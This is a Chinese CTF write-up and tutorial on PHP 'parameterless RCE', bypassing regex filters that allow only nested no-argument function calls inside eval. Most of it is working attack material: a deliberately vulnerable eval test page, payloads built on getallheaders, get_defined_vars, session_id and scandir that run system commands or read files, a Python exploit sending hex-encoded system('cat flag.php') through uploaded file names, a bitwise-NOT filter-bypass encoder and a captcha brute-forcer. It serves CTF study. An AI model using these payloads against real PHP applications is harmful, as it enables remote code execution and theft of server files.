

# PHP的无参数RCE - 先知社区

PHP的无参数RCE

- - -

# PHP无参数RCE

因为先前只是参照大佬的payload解题，从未自己本地复现过，索性借复习的机会，在本地搭建并尝试。

题目：

**GXYCTF2019—禁止套娃**

**\[极客大挑战 2020\]Roamphp4-Rceme**

限制条件：

```plain
/[^\W]+\((?R)?\)/
(?R)引用当前表达式，?递归调用
或
/[^\s\(\)]+?\((?R)?\)/
```

以上表达式匹配这种格式的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325204736-46bca358-8d68-1.png)

也就是我们需要用函数实现无参数rce。

## 测试代码

```plain
<?php
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
    eval($_GET['code']);
}
//index.php
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325204737-470b348c-8d68-1.png)

目录下文件

## payload

### payload\_1 getenv()

```plain
var_dump(getenv(phpinfo()));
```

**getenv() 获取一个环境变量的值，phpinfo() 获取全部的环境变量，其实不是很理解，直接phpinfo()就好了。**

### payload\_2 getallheaders()

```plain
eval(end(getallheaders()));
```

**end() 将数组的内部指针移到最后一个；**

**getallheaders() 获取所有的http请求头；**

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325204737-472bea42-8d68-1.png)

这里需要两个`eval`的原因，我认为是，如果只有一个`eval`就只是执行 `end(getallheaders());` 获取了其返回值，但是并没有执行其返回值，再加一个`eval` ，也就是获取了返回值后，再`eval()`。

如果用bp打，传最后一个似乎并不行，那么我们可以尝试修改ua头，然后用把end改成next；

### payload\_3 get\_defined\_vars()

```plain
eval(end(current(get_defined_vars())));&jiang=phpinfo();
```

**`get_defined_vars()`**返回由所有已定义变量所组成的数组，会返回**`$_GET,$_POST,$_COOKIE,$_FILES`**全局变量的值,返回数组顺序为**`get->post->cookie->files`**

**`current()`** 返回数组中的当前单元，初始指向插入到数组中的第一个单元，也就是会返回**`$_GET`**变量的数组值。

如果需要`$post`就把`current` 改成`next` 就好。

而如果网站对`$_GET,$_POST,$_COOKIE`都做的过滤， 那我们只能从`$_FILES`入手了，exp如下：

```plain
import requests
def str2hex(payload):
  txt = ''
  for i in payload:
      txt += hex(ord(i))[-2:]
  return txt
payload = str2hex("system('cat flag.php');")
files = {
    payload: b'extrader'
}
r = requests.post("http://192.168.0.107/index.php?exp=eval(hex2bin(array_rand(end(get_defined_vars()))));", files=files, allow_redirects=False)  # allow_redirects=False 禁用重定向处理
print(r.content.decode())
```

**array\_rand()：**从数组中随机取出一个或多个单元，如果只取出一个，**`array_rand()`**返回随机单元的键名。 否则就返回包含随机键名的数组。

### payload\_4 session\_start()

```plain
show_source(session_id(session_start()));
var_dump(file_get_contents(session_id(session_start())))
highlight_file(session_id(session_start()));
readfile(session_id(session_start())); 或者readgzfile();
修改cookie : PHPSESSID= filename

eval(hex2bin(session_id(session_start())));
抓包传入Cookie: PHPSESSID=("system('命令')"的十六进制)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325204738-478af10e-8d68-1.png)

### payload\_5-scandir()

读取文件

读文件有好多操作，

```plain
当前目录：highlight_file(array_rand(array_flip(scandir(getcwd()))));
上级目录文件：highlight_file(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));
以上两个都是随机获取的其实，看脸。
```

可以配合 数组的指针，倒序，等各种方式找到我们的文件。

-   **getcwd()**：取得当前工作目录，成功则返回当前工作目录，失败返回 **`FALSE`**。
-   **dirname()**：返回路径中的目录部分，返回 path 的父目录。 如果在 `path` 中没有斜线，则返回一个点（’*.*‘），表示当前目录。否则返回的是把 `path` 中结尾的 `/component`（最后一个斜线以及后面部分）去掉之后的字符串(也就是上级目录的文件路径)。
-   **chdir()**：改变目录，成功时返回 **`TRUE`**， 或者在失败时返回 **`FALSE`**。
-   **scandir()**：列出指定路径中的文件和目录。成功则返回包含有文件名的数组，如果失败则返回 **`FALSE`**。如果 `directory` 不是个目录，则返回布尔值 **`FALSE`** 并生成一条 **`E_WARNING`** 级的错误。
-   **array\_flip()**：交换数组中的键和值，成功时返回交换后的数组，如果失败返回 **`NULL`**。
-   **array\_rand()**：从数组中随机取出一个或多个单元，如果只取出一个(默认为1)，**array\_rand()** 返回随机单元的键名。 否则就返回包含随机键名的数组。 完成后，就可以根据随机的键获取数组的随机值。

**array\_flip()**和**array\_rand()**配合使用可随机返回当前目录下的文件名

**dirname(chdir(dirname()))**配合切换文件路径

#### `.`

##### **current(localeconv())**

-   **localeconv()**：返回一包含本地数字及货币格式信息的数组。而数组第一项就是 `.`

##### **phpversion()**

-   `phpversion()`返回php版本，如`7.3.5`
-   `floor(phpversion())`返回`7`
-   `sqrt(floor(phpversion()))`返回`2.6457513110646`
-   `tan(floor(sqrt(floor(phpversion()))))`返回`-2.1850398632615`
-   `cosh(tan(floor(sqrt(floor(phpversion())))))`返回`4.5017381103491`
-   `sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回`45.081318677156`
-   `ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回`46`
-   `chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`返回`.`
-   `var_dump(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))`扫描当前目录
-   `next(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))`返回`..`

**floor()**：舍去法取整，**sqrt()**：平方根，**tan()**：正切值，**cosh()**：双曲余弦，**sinh()**：双曲正弦，**ceil()**：进一法取整

##### **crypt()**

```plain
chr(ord(hebrevc(crypt(phpversion()))))`返回`.
```

-   `hebrevc(crypt(arg))`可以随机生成一个hash值 第一个字符随机是 $(大概率) 或者 .(小概率) 然后通过ord chr只取第一个字符

**crypt()**：单向字符串散列，返回散列后的字符串或一个少于 13 字符的字符串，从而保证在失败时与盐值区分开来。

**hebrevc()**：将逻辑顺序希伯来文（logical-Hebrew）转换为视觉顺序希伯来文（visual-Hebrew），并且转换换行符，返回视觉顺序字符串。

#### 数组操作

-   [end()](https://www.w3school.com.cn/php/func_array_end.asp) ： 将内部指针指向数组中的最后一个元素，并输出
-   [next()](https://www.w3school.com.cn/php/func_array_next.asp) ：将内部指针指向数组中的下一个元素，并输出
-   [prev()](https://www.w3school.com.cn/php/func_array_prev.asp) ：将内部指针指向数组中的上一个元素，并输出
-   [reset()](https://www.w3school.com.cn/php/func_array_reset.asp) ： 将内部指针指向数组中的第一个元素，并输出
-   [each()](https://www.w3school.com.cn/php/func_array_each.asp) ： 返回当前元素的键名和键值，并将内部指针向前移动

#### 目录操作：

-   **getchwd()** ：函数返回当前工作目录。
-   **scandir()** ：函数返回指定目录中的文件和目录的数组。
-   **dirname()** ：函数返回路径中的目录部分。
-   **chdir()** ：函数改变当前的目录。

## 题目

### \[极客大挑战 2020\]Roamphp4-Rceme

swp 源码泄露

.index.php.swp 可以获取源码

swp 源码可以用vim 编辑器还原

```plain
vim -r index.php.swp
<?php
error_reporting(0);
session_start();
if(!isset($_SESSION['code'])){
    $_SESSION['code'] = substr(md5(mt_rand().sha1(mt_rand)),0,5);
}

if(isset($_POST['cmd']) and isset($_POST['code'])){

    if(substr(md5($_POST['code']),0,5) !== $_SESSION['code']){
        die('<script>alert(\'Captcha error~\');history.back()</script>');
    }
    $_SESSION['code'] = substr(md5(mt_rand().sha1(mt_rand)),0,5);
    $code = $_POST['cmd'];
    if(strlen($code) > 70 or preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/ixm',$code)){
        die('<script>alert(\'Longlone not like you~\');history.back()</script>');
    }else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
        @eval($code);
        die();
    }
}
?>
```

我们传入的命令中不能有以下 ，

```plain
/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/，
```

想到是无字母数字，过滤了 异或 和或，留了取反。

同时我们的函数必须是无参的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325204738-47c51d7a-8d68-1.png)

类似于这种，之前在buuoj上有遇到这种题目，无参数RCE。

```plain
def one(s):
    ss = ""
    for each in s:
        ss += "%" + str(hex(255 - ord(each)))[2:].upper()
    return f"[~{ss}][!%FF]("

while 1:
    a = input(":>").strip(")")
    aa = a.split("(")
    s = ""
    for each in aa[:-1]:
        s += one(each)
    s += ")" * (len(aa) - 1) + ";"
    print(s)
```

利用脚本生成一下 payload，

试了好多遍，getallheaders() 在最后加的话用bp打好像并不是最后一个，试了好多种别的办法无果，但是 next() 后是ua头，于是我丧心病狂，直接改ua

利用 payload: `system(next(getallheaders()));`

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325204738-47e63636-8d68-1.png)

这道题不能用session是因为验证码是储存在session中的，附上一个爆破验证码的脚本。

```plain
import hashlib
a=input()
for i in range(1,200000000):

    x=hashlib.md5(str(i).encode(encoding='UTF-8')).hexdigest()

    if (x[0:5]==a):
        print(x)
        print(i)
        break
```
